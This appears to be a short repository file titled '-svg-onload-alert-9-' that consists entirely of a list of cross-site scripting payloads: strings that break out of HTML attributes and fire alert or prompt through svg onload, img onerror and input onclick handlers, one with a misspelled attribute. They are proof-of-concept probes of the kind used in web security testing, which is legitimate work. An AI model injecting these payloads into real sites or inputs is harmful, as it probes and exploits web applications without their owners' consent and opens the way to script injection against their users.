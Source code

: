 # -svg-onload-alert-9-
">&lt;svg/onload=alert(9)>&lt;"
"><svg/onload=alert(9)><"
"><img rsc=x {onerror=prompt``}><"
"><img src=x onerror=alert(9)
'><input type="button" value="alert" onclick="alert(9)"><'
